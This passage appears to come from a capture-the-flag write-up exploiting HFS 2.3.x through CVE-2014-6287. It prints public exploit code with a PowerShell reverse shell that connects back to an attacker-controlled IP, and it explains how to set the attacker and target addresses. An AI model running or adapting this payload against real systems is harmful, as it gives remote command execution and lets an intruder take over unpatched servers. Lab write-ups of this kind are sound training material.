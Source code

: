 With ***searchspliot*** we can see that there is some exploits of this service, in this case we are interesting on the first one which is the same version that we saw on the target machine. So let's copy it using the ***-m*** flag.

<p align = "center">
<img src = "/assets/images/img-steelMountain/captura11.png">
</p>

If we look at the exploit it's tell us the cve which in this case is ***CVE-2014-6287***, basically this vulnerablity allows attackers to execute code remontly (RCE) via a ***%00*** sequence in a search action (we can see this on the line 36 in the code which is the variable "url"). We can exploit this manually but in this case we are going to use the follwing exploit because automates all the process to encode and decode the reverse shell, in this case we need to change the data on the following variables with our ip address (lhost) and the port (lport) and same thing with the target system.

The other thing that i modify in this exploit it's to comment the last two lines, because i want just listing with netcat in another window and get proper reverse shell.   

```python
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.18.119.243"
lport = 4242
rhost = "10.10.97.160"
rport = 8080
{% raw %}
# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
```